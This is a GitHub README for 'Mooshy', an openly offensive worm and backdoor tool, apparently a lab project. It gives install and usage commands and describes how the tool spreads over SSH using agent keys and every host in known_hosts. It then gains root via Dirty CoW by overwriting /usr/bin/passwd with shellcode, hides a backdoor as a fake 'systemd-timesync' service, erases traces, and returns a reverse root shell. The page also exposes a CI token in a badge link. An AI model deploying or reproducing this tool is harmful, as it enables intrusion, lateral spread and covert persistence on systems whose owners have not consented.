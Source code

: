 [![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

[![asciicast](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX.png)](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX)

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

## Development:
```sh
    make
```

## Generation of the report:
```sh
    make report
```

## Usage:
```sh
    $ mooshy -help                                                       
    Usage of mooshy:
      -addr string
        	The lucky guy
      -moosh string
        	Path to moosh (default "./bin/moosh")
      -ssh
        	Use SSH for the infection
      -sshAgent string
        	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
      -sshKey string
        	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
      -sshKnown string
        	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
      -sshUser string
        	Username to connect as(e.g. for SSH) (default "averagejoe")
      -useSSHAgent
        	Whether or not use SSH agent
      -useSSHKey
        	Whether or not use (passwordless) SSH private key
      -useSSHKnown
        	Whether or not to try to infect all hosts in SSH known_hosts file
```

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Buffer overflow of a HHTPD server:
        - Connects to the `addr`.
        - Opens reverse shell on the victim machine.
        - Downloads `moosh` binary from somewhere??
        - TODO.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system
    - Creates,enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the infected victim and returns a reverse `root` shell.

# Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))
